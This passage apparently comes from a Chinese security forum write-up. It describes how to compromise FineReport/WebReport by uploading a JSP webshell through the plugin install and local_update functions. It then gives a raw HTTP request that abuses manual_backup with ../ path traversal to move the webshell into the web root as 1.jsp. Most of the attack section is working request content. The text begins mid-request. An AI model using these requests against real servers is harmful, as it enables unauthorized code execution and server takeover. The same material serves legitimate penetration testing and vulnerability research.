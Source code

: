 ```php
Connection: close

Referer: http://192.168.6.140:8080/WebReport/ReportServer?op=plugin&cmd=init

Cookie: JSESSIONID=5F48D0D96E90F4EF12F4FA54BF441927; fr\_password=""; fr\_remember=false

Upgrade-Insecure-Requests: 1

\-----------------------------43396694042741433502589989449

Content-Disposition: form-data; name="install-from-disk"; filename="plugin-com.fr.plugin.reportfit.zip"

Content-Type: application/x-zip-compressed

PK;;4
```

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-1b94d6c6d2dd7b694301a6a24c5fa41f2e529eb3.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-7ff1caee459e56f21b0d32845fcd08f4fb2672e6.png)

#### 方式2：local\_update本地更新功能上传webshell

选择本地更新插件上传zip压缩包，路径为`http://192.168.6.140:8080/WebReport/ReportServer?op=plugin&cmd=local_update`，与local\_install本地安装过程同理，最后自动解压至`WEB-INF/tmp`目录

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-35afff9ddd7ccd0ab6947ff59cd10e2b8ab0501e.png)

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/07/attach-58199d40d7a359b2bf71598c65afa130d477f1eb.png)

### manual\_backup重命名文件

将`/WebReport/WEB-INF/tmp/go401-pass-rodenty-raw.jsp`移动至`/WebReport`目录，并重命名为`1.jsp`

```php
POST /WebReport/ReportServer?op=fr\_server&cmd=manual\_backup HTTP/1.1

Host: 192.168.6.140:8080

User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,\*/\*;q=0.8

Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2

Connection: close

Cookie: JSESSIONID=5F48D0D96E90F4EF12F4FA54BF441927; fr\_password=""; fr\_remember=false

Upgrade-Insecure-Requests: 1

Content-Length: 97

X-Requested-With: XMLHttpRequest

Content-Type: application/x-www-form-urlencoded; charset=UTF-8

optype=edit\_backup&oldname=../../../WEB-INF/tmp/go401-pass-rodenty-raw.jsp&newname=../../../1.jsp
```
